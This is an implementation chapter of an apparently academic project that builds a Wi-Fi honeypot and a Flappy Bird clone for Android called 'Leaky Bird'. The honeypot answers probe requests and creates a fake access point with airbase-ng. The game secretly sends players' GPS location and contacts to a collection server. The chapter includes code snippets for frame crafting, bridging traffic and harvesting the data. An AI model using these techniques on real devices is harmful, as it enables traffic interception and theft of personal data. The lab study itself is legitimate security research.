\section{Implementation}
This section details the process taken to develop the various discrete components. The final implementation has been developed and tested in a controlled environment using a dedicated wireless network in order to meet the the required ethical standards.

\subsection{Operating System}
The laptop used to develop and run the application is running BackTrack 5 Revision 3 in a virtual machine on VirtualBox, on Windows 7.

\subsection{Ethernet Connection}
In order to bridge traffic and allow the compromised device to connect to the internet, the laptop must be attached via ethernet. In this case the laptop is connected to the wireless access point via an ethernet cable, and has it’s network adaptor set to bridged in the VirtualBox network settings.

\subsection{Setting up the Workstation}
The attackers laptop needs to be correctly wired to the network and setup in order to run the applications and perform the attack. A bash setup script was developed to quickly get the station ready to run the application:

\begin{verbatim}
#! \bin\bash
service ssh start
echo 1 > /proc/sys/net/ipv4/ip_forward
airmon-ng start wlan0
\end{verbatim}

This script enables SSH as the majority of development and testing was undertaken from my desktop PC, enables IP forwarding so we can bridge traffic from the fake access point to the wired network, and then starts a monitor interface from the wlan0 interface. Once this is complete the station is ready to run the honeypot application.
\clearpage
\subsection{Honeypot Application}
Figure \ref{hp-1} shows the Honeypot application running and outputting the probe requests of nearby devices. It's searching for a request from a device that is looking for the TESTAP network.

In this instance the Bucket server is not running, so probe requests are not being transmitted to the server.

\begin{figure}[h!]
\centering
\includegraphics[width=\linewidth]{implementation/figures/hp-running-1.png}
\caption{Honeypot capturing probe requests.}
\label{hp-1}
\end{figure}

\subsubsection{Capturing Packets}
Using the Lorcon library we can parse captured packets, and decode them, by passing the lorcon loop function a callback. The callback passed to the lorcon loop takes a packet pointer parameter, which when called contains the captured frame. 

\begin{verbatim}
void packet_handler(lorcon_t *, lorcon_packet_t *, u_char *);
\end{verbatim}

To single out the frame type it is a case of indexing in the right location:

\begin{verbatim}
uint8_t packetType = packet->packet_header[HP_80211_TYPE];
\end{verbatim}

The lorcon library also offers a struct with extra info on 802.11 packets, which means the subtype could also be accessed as so:

\begin{verbatim}
struct lorcon_dot11_extra *extra;
extra = (struct lorcon_dot11_extra *)packet->extra_info;
\end{verbatim}

And then accessing the subtype field.

Once we have this information we can use a state style switch statement to determine where in the process of the association sequence we are, and react accordingly to incoming packets.

\subsubsection{Parsing Probe Requests}

Firstly the application needs to listen for probe request packets in order to get the SSIDs that nearby devices are searching for. To capture the SSID from the packet the application copies it from the header, using the SSID length field as an indexer:

\begin{verbatim}
for(i=0; i<packet->packet_header[HP_80211_P_SSID_LEN]; i++) {
	ssid[i] = packet->packet_header[HP_80211_P_SSID + i];
}
\end{verbatim}

This application is limited in that it only reacts to SSIDs in probe requests that match the SSID passed in as a command line argument. The filter is implemented in the parse probe request function and simply compares the SSID in the probe request to the SSID given, where ap info is a struct holding information about the virtual access point:

\begin{verbatim}
if(strcmp(ap_info.ssid, ssid) == 0) {
       ap_info.valid_probe = 1;
return 1;
}
\end{verbatim}

At this point, if a valid probe request has been found, the application pre-checks the authentication type of the AP that the device is probing for by sending a probe response and then parses the authentication response, checking whether the Authentication Algorithm is set to Open (i.e. 0). This check is performed so that a virtual access point is not created for devices that are probing for encrypted networks, as the application only handles unencrypted networks.

\subsubsection{Creating Probe Responses}

To create a probe response packet in lorcon we follow this process:

\begin{verbatim}
lcpf_proberesp(metapack, ap_info.dst_mac, ap_info.src_mac, ap_info.bssid, 
					0x00, 0x00, 0x00, ap_info.seq, 
					ap_info.timestamp, ap_info.beacon_int, ap_info.flags);
\end{verbatim}

The snippet above creates a probe request frame which then needs the required information element tags added, as determined through the research in section \ref{research:assoc-seq}:

\begin{verbatim}
lcpf_add_ie(metapack, IE_SSID_LEN, ap_info.ssid_len, ap_info.ssid);
lcpf_add_ie(metapack, IE_RATES, sizeof(rates)-1, rates);
lcpf_add_ie(metapack, IE_CHANNEL, 1, &channel);
lcpf_add_ie(metapack, IE_MISC, 1, "\x05");
lcpf_add_ie(metapack, IE_MISC, 1, "\x05");
txpacket = (lorcon_packet_t*)lorcon_packet_from_lcpa(context, metapack);
\end{verbatim}

\subsubsection{Creating a Fake Access Point}

When an open network has been discovered, the application forks and creates a virtual access point using airbase-ng and sends another probe response on behalf of the VAP to speed up the process of associating. 

\begin{verbatim}
.. snip..
childPID = fork();
	if(childPID >= 0) {
		if(childPID == 0) {
			// Child process
			snprintf(cmd, sizeof cmd, "airbase-ng --essid \%s -c \%i mon0",
				 ap_info.ssid, ap_info.channel);
			system(cmd);
.. snip..
\end{verbatim}

Figure \ref{client-connected} shows the application output when an access point is created and a client connects. In this instance the device has connected to the network WirelessLab.

\begin{figure}[h!]
\centering
\includegraphics[width=\linewidth]{implementation/figures/client-assoc-1.png}
\caption{Virtual Access Point created and the client connecting.}
\label{client-connected}
\end{figure}

Once the application gets to this point it will no longer create virtual access points, as it is purposely limited to one, as defined in the requirements.

\subsubsection{Monitoring Data Packets}
As mentioned previously we need to bridge traffic from the tap interface created by airbase-ng to the wired interface that the Virtualbox host is on. To do this we perform the following steps:

\begin{verbatim}
brctl addbr wirelesslab-br
brctl addif wirelesslab-br eth0
brctl addif wirelesslab-br at0

ifconfig eth0 192.168.1.5 up
ifconfig at0 192.168.1.23 up

ifconfig wirelesslab-br 192.168.1.6 up
\end{verbatim}

This adds the two interfaces to the bridge created in the first command, then assigns an IP address to both of them. Once this step is complete traffic sent to the virtual access point will be forwarded across the eth0 interface and vice-versa.
\clearpage
 The filter required to get data packets in Wireshark travelling to the access point from the device is:

\begin{verbatim}
tcp && wlan.da == device_mac
\end{verbatim}

This then shows the tcp packets that have been forwarded across the bridge on to the wired network, and communicating with the server (192.168.1.5) on that network.

\begin{figure}[h!]
\centering
\includegraphics[width=\linewidth]{implementation/figures/wireshark captured.png}
\caption{Captured TCP packets from the device to the server.}
\end{figure}

The data found in the TCP packet is the location data that the app is relaying to the Bucket server:

\begin{figure}[h!]
\centering
\includegraphics[width=\linewidth]{implementation/figures/wireshark-data.png}
\caption{Packet contents.}
\end{figure}

\newpage
\subsection{Leaky Game}
This application has been developed for Android and mimics the recently popular Flappy Bird style because of its simple nature, and possibility for exploiting the viral hype still surrounding it. It has been developed using Android Java and libgdx to handle the game functions and named Leaky Bird to reflect its actual purpose.

It was developed using the Eclipse IDE due to the support project creation support offered by libgdx tools, the process of which is detailed in a further section. The game was tested in a desktop environment to start with, before being deployed on a Nexus 7 for testing Android specific functionality.

\subsubsection{Project Structure}
Using the libgdx project setup tool removes the need for manually creating the projects and writing the boilerplate code required for the creation of cross-platform games. It creates multiple Eclipse projects that link to one main project that holds the game code, thus effectively decoupling any platform specific code from the implementation. The projects created allow you to deploy on Android, desktop, web and iOS using robovm.

\begin{figure}[h!]
\centering
\includegraphics[width=\linewidth]{implementation/figures/gdx-setup-2.png}
\caption{Configuration screen.}
\end{figure}

Which when imported to Eclipse sets the workspace up automatically.

\begin{figure}[h!]
\centering
\includegraphics{implementation/figures/gdx-setup-3.png}
\caption{Eclipse project structure.}
\end{figure}

Whilst developing the game it was tested under the desktop deployment, and then when Android specific functions were required it was moved to testing on an actual device.

\subsubsection{Creating Interfaces}
As the Android application utilizes libgdx as it’s graphics library, we need to create a number of interfaces to allow it to use Android specific functions, for example GPS. The process in doing so is relatively straight forward. Firstly you need to create an interface to encapsulate the desired functions and then implement this interface in a class on the Android  side, and pass it through to the constructor of the game. 

In this project the interface takes the naming standard of XResolver, where X is the service it is handling, and the implementation takes the standard of PlatformX where Platform is the deployment platform, e.g. Android, desktop, etc., and X is the service.

If, for example, we were writing a resolver for adding two numbers, we would have an interface in the libgdx project as such:
\begin{verbatim}
public interface AdditionResolver {
    public int add(int a, int b);
}
\end{verbatim}
Then in the Android project implement the interface in a class:
\begin{verbatim}
public class AndroidAddition implements AdditionResolver {
    public AndroidAddition() {
    }

    @Override
    public int add(int a, int b) {
        return a + b;
    }
}
\end{verbatim}
And finally pass it through in the game initialiser in the Android MainActivity:
\begin{verbatim}
initialize(new LeakyBirdGame(androidAddition), cfg);
\end{verbatim}
Remembering to update the constructor of the Game class, then it is ready for use within the application while the game is running. In reality you wouldn’t need something as simple as an addition resolver, this is just to illustrate the steps to take.

\subsubsection{Getting the GPS Co-ordinates}
\label{getting-gps-coords}
The application has been developed to report the players location whilst they are playing the game. This required an interface to be written between Android Java and libgdx so that we could take advantage of Android's GPS support, as noted in the section prior to this about creating interfaces.

The two functions we need the libgdx side of the application to be able to access are the LocationManager class's getLatitude and getLongitude. The interface to pass to the LeakyBirdGame initialiser is:
\begin{verbatim}
public interface GpsResolver {
    public double getGPSLatitude();
    public double getGPSLongitude();
}
\end{verbatim}
It is named resolver due to libgdx being able to create desktop, HTML5 and iOS games from the same source code but with different entry points. Some of these entry points may not have GPS enabled so we have to be sure to wrap any calls to this class in a null check. On the Android side we can create a class, AndroidLocationProvider,  that implements this interface and allow the functions to wrap around the two LocationManager calls we need to make in order to get the coordinates. In the constructor of the class we need to get the name of the provider that our game will be using to get the location data, this can either be via GPS or network, the former being finer grained than the latter.
\begin{verbatim}
Criteria criteria = new Criteria();
provider = locationManager.getBestProvider(criteria, false);
\end{verbatim}
Where provider is a class level defined string and criteria is left intentionally default so the application will attempt to get the best provider available.

The two overridden interface functions require nearly identical implementations, with just the longitude/latitude selection switching between them:
\begin{verbatim}
 Location location = locationManager.getLastKnownLocation(provider);
 return location.getLatitude();
\end{verbatim}
As locationManager is passed through to the constructor from the Android MainActivity, it allows us to use a reference to it’s context internally to get the location data during the game’s execution.

In the libgdx project we can now access the GPS, assuming it has been passed through the constructor and named gpsResolver, through the two functions as so:
\begin{verbatim}
game.resolver.showToast(gpsResolver.getGPSLatitude());
\end{verbatim}
This is displayed using an Android Toast resolver that has been implemented in the same manner.

GPS co-ordinates can be changed in the Emulator, if not running on a device,  through the Dalvik Debug Monitor Service (DDMS) in Eclipse:
\begin{verbatim}
telnet localhost 5544 # Emulator port
geo fix  01.10 10.01
\end{verbatim}

\subsubsection{Android TCP Client}
This uses a similar process described in section \ref{getting-gps-coords} to access Android’s GPS functionality. Any network activity performed in an Android application must be done inside an AsyncTask rather than the UI thread, otherwise delayed activity may result in the application freezing. With this in mind another interface needed to be created to allow the wrapping of a class that extends AsyncTask, as this is in the Android library and inaccessible from libgdx.

The interface this time defines one function that must be implemented:
\begin{verbatim}
public boolean send(String msg);
\end{verbatim}

As the application is, by design, insecure and leaks data the function simply takes a string and sends it, using TCP, to the Bucket server. The message format for data packets is, as described in section \ref{design:tcp-structure}:
\begin{verbatim}
MESSAGE_ID,UNIQUE_ID,PAYLOAD
\end{verbatim}

The android implementation of this, AndroidTcpClient, consists of connection information class level variables and a private inner AsyncTask class that takes a string as a parameter for it’s DoInBackground function, and gives a boolean result, that takes care of the connecting and disconnecting to the server:

\begin{verbatim}
private class SenderTask extends AsyncTask<String, Void, String>
\end{verbatim}

Each time a message needs to be sent the AsyncTask connects to the TCP server and then, if successful, sends the message. This way should the server go down during testing, the application need not be restarted each time.
 
An interesting point to note is that for a period of time I could not get any output at the server end. The client application was connecting perfectly well and the server was displaying it’s connection information, but would not receive any data. This turned out to be because the send implementation was using a BufferedWriter and I had forgotten to add in:

\begin{verbatim}
out.flush();
out.close();
\end{verbatim}

after the write, which tells the BufferedWriter to send the data now rather than wait for it to be full.

Again the LeakyBirdGame constructor needs to be updated with the new parameter before it can be used in the game to send data.

\subsubsection{Android Contacts List}
As with the other interface methods, this implements a resolver and Android handler. This class accesses all of the contacts on the device and sends them, in an unencrypted data packet, to the server. To get access to the contacts list we need to ask for permission by including a line in the Android manifest:

\begin{verbatim}
<uses-permission android:name="android.permission.READ_CONTACTS"/>
\end{verbatim}

This is achieved by using a cursor object to traverse the contacts table.

\begin{verbatim}
ContentResolver contentResolver = getContentResolver();
Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI,
							null, null, null, null);
\end{verbatim}

The cursor class provides methods to move around and interact with the table of contacts. Once we have this object we can loop around it until the moveToNext function returns null, indicating the end of the table has been reached. From this point we can get information such as ID and name by querying the row:

\begin{verbatim}
cursor.getString(cursor.getColumnIndex(ContactsContract.Contacts.DISPLAY_NAME));
\end{verbatim}

To delve deeper in to the information we need to query the contacts associated data. For instance, the application can retrieve the contacts email address by firstly getting a cursor to traverse the email information:

\begin{verbatim}
emailCursor = cursor.query(ContactsContract.CommonDataKinds.Email.CONTENT_URI,
			null,
			ContactsContract.CommonDataKinds.EMAIL.CONTACT_ID + `` = ? ``,
			new String[]{ID},
			null); 
\end{verbatim} 

Then using this to retreive all of the email addresses stored for that contact, looping until moveToNext is null for the emailCursor, indexing the ContactsContract.CommonDataKinds.Email.DATA column.

This pattern of retreiving a cursor and indexing columns is repeated for address and instant messenger handles as well.  

\subsubsection{Result}
The result of the application is a game that looks, and plays, similarly to Flappy Birds, as intended. In order to be able to test the leaking data during development the game was set up in a way that each time the player tapped the screen to make the bird rise, it sent the personal data to the server and added a point to the total score.

\begin{figure}[h!]
\centering
\includegraphics{implementation/figures/flappy-b-2.png}
\caption{Finished Leaky Bird Game.}
\end{figure}


\clearpage